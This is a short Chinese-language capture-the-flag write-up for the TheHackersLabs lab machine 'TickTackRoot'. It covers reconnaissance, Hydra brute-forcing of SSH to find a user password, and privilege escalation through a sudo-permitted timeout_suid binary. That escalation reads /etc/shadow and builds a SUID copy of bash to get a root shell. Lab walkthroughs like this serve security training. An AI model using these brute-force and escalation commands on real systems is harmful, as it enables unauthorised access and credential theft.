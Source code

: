 # TickTackRoot

2025.02.27 https://thehackerslabs.com/ticktackroot/

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 可以匿名登陆，先看。index.html 显示的是 apache 默认页面，login/login.txt 中显示了：

```
rafael
monica
```

像是 2 个用户名。

80 web 上用大字典扫描没扫出什么东西，只好用 hydra 爆破一下 ssh 上面 2 个账号，没爆出来；在爆一下 ftp 用这 2 个账号，还是没爆出来。目前什么都没有。

在看一下 ftp 登陆这里显示了一个 Bienvenido Robin 这里得到了一个 robin 的名字，可能是用户名，再用这个 robin 进行下 ssh 爆破，终于找到了密码 babyblue

先拿到 user flag：

```
robin@TheHackersLabs-Ticktackroot:~$ cat  user.txt
8XG29KLM3PZA1VQR5JYN
```

sudo -l 显示 (ALL) NOPASSWD: /usr/bin/timeout_suid

GTFOBins 中没有现成的利用，看看这个程序的帮助信息，看到可以直接执行命令，拿到最终 flag：

```
/usr/bin/timeout_suid 10 cat /etc/shadow

robin@TheHackersLabs-Ticktackroot:~$ /usr/bin/timeout_suid 10 cp /bin/bash /tmp/rootbash
robin@TheHackersLabs-Ticktackroot:~$ /usr/bin/timeout_suid 10 chmod +xs /tmp/rootbash
robin@TheHackersLabs-Ticktackroot:~$ ls -al /tmp/rootbash
-rwsr-sr-x 1 root root 1446024 feb 27 14:29 /tmp/rootbash
robin@TheHackersLabs-Ticktackroot:~$ /tmp/rootbash -p
rootbash-5.2# cd /root
rootbash-5.2# ls
root.txt
rootbash-5.2# cat root.txt
9BW5V2UJZ4NXDF3Q7CML
```
